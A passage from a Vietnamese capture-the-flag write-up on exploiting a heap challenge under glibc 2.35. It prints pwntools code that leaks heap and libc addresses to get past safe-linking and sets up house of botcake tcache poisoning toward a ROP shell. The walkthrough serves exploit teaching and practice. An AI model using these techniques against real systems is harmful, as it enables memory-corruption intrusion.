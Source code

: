 ```cs
int op_view()
{
  __int64 index; // [rsp+8h] [rbp-8h]

  puts("Index?");
  index = get_index();
  return puts(*((const char **)&chonks + index));
}
```

- libc được sử dụng ở bài này là 2.35 (không dùng được hook , có tcache và Safe-linking)  , ta có thể xem cách ```safe-linking``` hoạt động ở [here](https://github.com/johnathanhuutri/CTFNote/tree/master/Heap-Exploitation)  , mặc khác ta cũng không thể overwrite được GOT , vậy cách mà ta suy nghĩ cuối cùng có lẽ là sử dụng ROP_CHAIN trên stack hoặc là ```exit_handle``` hoặc ```overwrite_got_libc``` tuy  nhiên thì ở bài này mình sẽ làm cách 1, vì vậy ta cần phải leak được địa chỉ stack , muốn leak stack thì ta phải leak libc trước để có ```environ``` và ta cũng cần leak heap để bypasss được ```safe-linking```
- trước hết ta cần setup để có được ```libc_address``` và ```heap_address```


```python
for i in range(7): malloc(i,0x100,b'a')

free(0)
view(0)
heap_base = u64(p.recv(5).ljust(8,b'\x00')) * 0x1000
log.info(f'heap base: {hex(heap_base)}')
```

- tiếp theo ta chỉ việc malloc() lại , 3 chunk tiếp theo sẽ được sử dụng cho kỹ thuật ```house_of_botcake``` , đây là 1 phương pháp tấn công tcache_poisioning nhưng mạnh mẽ hơn , nó sử dụng hợp nhất chunk để tạo ra 1 double free trong tcache , ta có thể đọc ở đây [here](https://4xura.com/pwn/house-of-botcake/)

- ta sẽ malloc 2 chunk 0x100 và 1 chunk để tránh gộp với top chunk , đồng thời ta sẽ free 8 chunk , chunk thứ 8 sẽ đi vào unsorted bin và ta có thể leak libc 

```cs
malloc(0,0x100,b'a')

malloc(7,0x100,b'a')
malloc(8,0x100,b'a')

malloc(9,0x10,b'c')

for i in range(7): free(i)
free(7)
view(7)
libc.address = u64(p.recv(6).ljust(8,b'\x00')) - 0x219ce0
environ = libc.sym.environ
binsh = next(libc.search(b'/bin/sh\x00'))
stdout = libc.address + 0x21a780
log.info(f'libc: {hex(libc.address)}')
log.info(f'environ: {hex(environ)}')
log.info(f'binsh: {hex(binsh)}')
log.info(f'stdout: {hex(stdout)}')
```
